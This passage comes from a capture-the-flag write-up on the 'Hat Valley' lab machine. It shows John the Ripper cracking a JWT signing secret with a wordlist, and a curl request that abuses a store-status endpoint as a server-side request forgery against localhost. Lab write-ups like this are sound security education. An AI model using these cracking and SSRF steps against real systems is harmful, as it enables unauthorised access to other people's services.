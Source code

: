 
We can use this jwt2john script to crack the password that this jwt was signed with
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt chris-jwt.txt
john hash.txt --show --format=Raw-SHA256
?:123beany123

1 password hash cracked, 3 left
```

Tried to log in with those creds to the main app, the store app on the vhost, and over ssh, no success so far.

Presumably the store is up thing reaches the store through the internal network to check if it's up. So maybe we can leverage this as an SSRF, looking at the source in webpack again:
```js
import axios from 'axios'
axios.defaults.withCredentials = true
const baseURL = "/api/"

const store_status = (URL) => {
    const params = {
        url: {toJSON: () => URL}
    }
    return axios.get(baseURL + 'store-status', {params})
        .then(response => response.data)
}

export default {
    store_status
```

And indeed this can be used as a SSRF:
```bash
curl -i 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1"'
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 15 Jan 2023 09:00:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 132
Connection: keep-alive
x-powered-by: Express
access-control-allow-origin: *
etag: W/"84-P/5ob00JvOzx20G7pf2GChzepTg"

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Refresh" content="0; url='http://hat-valley.htb'" />
</head>
<body>
</body>
</html>
```
